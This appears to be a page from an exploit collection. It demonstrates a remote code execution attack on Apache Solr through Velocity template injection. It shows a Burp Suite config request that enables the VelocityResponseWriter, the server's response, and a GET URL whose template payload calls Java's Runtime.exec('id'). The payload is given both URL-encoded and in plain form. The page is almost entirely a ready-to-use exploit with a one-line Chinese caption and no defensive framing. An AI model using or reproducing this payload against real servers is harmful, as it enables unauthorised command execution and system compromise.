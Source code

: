 **BurpSuite request**

    POST /solr/atom/config HTTP/1.1
    Host: www.0-sec.org:8983
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:55.0) Gecko/20100101 Firefox/55.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    Content-Type: application/json
    Content-Length: 259
    Connection: close
    Upgrade-Insecure-Requests: 1

    {
      "update-queryresponsewriter": {
        "startup": "lazy",
        "name": "velocity",
        "class": "solr.VelocityResponseWriter",
        "template.base.dir": "",
        "solrresource.loader.enabled": "true",
        "paramsresource.loader.enabled": "true"
      }
    }

**BurpSuite response**

    HTTP/1.1 200 OK
    Connection: close
    Content-Type: application/json;charset=utf-8
    Content-Length: 149

    {
      "responseHeader":{
        "status":0,
        "QTime":554},
      "WARNING":"This response format is experimental.  It is likely to change in the future."}

**开启后，直接Get 访问（带入表达式）进行 远程代码命令执行**

    http://www.0-sec.org:8983/solr/atom/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end

**ssit**

    http://www.0-sec.org:8983/solr/atom/select?q=1&&wt=velocity&v.template=custom&v.template.custom=
    #set($x='') #set($rt=$x.class.forName('java.lang.Runtime')) #set($chr=$x.class.forName('java.lang.Character')) #set($str=$x.class.forName('java.lang.String')) #set($ex=$rt.getRuntime().exec('id')) $ex.waitFor() #set($out=$ex.getInputStream()) #foreach($i in [1..$out.available()])$str.valueOf($chr.toChars($out.read()))#end
